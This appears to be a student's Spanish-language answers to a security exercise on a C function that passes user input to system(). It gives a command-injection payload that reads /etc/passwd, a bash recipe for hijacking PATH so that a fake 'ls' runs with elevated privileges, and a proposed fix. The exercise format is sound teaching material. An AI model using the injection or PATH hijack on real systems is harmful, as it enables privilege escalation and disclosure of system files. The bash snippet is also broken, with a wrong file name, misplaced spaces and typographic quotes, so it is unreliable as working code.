

  

## a)  
".; cat /etc/passwd"

## b)


## c)  
Todavia hay una vulnerabilidad en el codigo, el formato del comando a ejecutar por system es:  
"ls [DIR]", pero no nos dice la ruta completa de ls, asi que el sistema va a buscar el binario de ls en el PATH!  

Si modificamos el PATH, para poner que en primer lugar busque binarios en un directorio de nuestra eleccion (x ej temp), y luego en ese directorio creamos un script malicioso con el mismo nombre de "ls", podemos hacer que el sistema corra nuestro script con privilegios elevaodos!!!


```bash
# creamos la copia maliciosa de ls
echo -e ’#!/bin/sh\n -- codigo malicioso aqui--’ > /tmp/ls
# la hacemos ejecutable
chmod +x / tmp / ping
# agregamos la ruta tmp a PATH para que busque primero binarios ahi.
export PATH ="/ tmp : $PATH "

# llamamos a la funcion
wrapper_ls "."

# se va a ejecutar nuestro script con privilegios elevados
```

## d)  
Podemos modificar el string de formato de snprintf para que tome el path absoluto (completo) de ls. Aparte de sanitizar dir para que no tenga caracteres peligrosos (;, (, ), &, ... ).

```C
snprintf(cmd, BUF_SIZE-1, "/usr/bin/ls %s", dir);
```


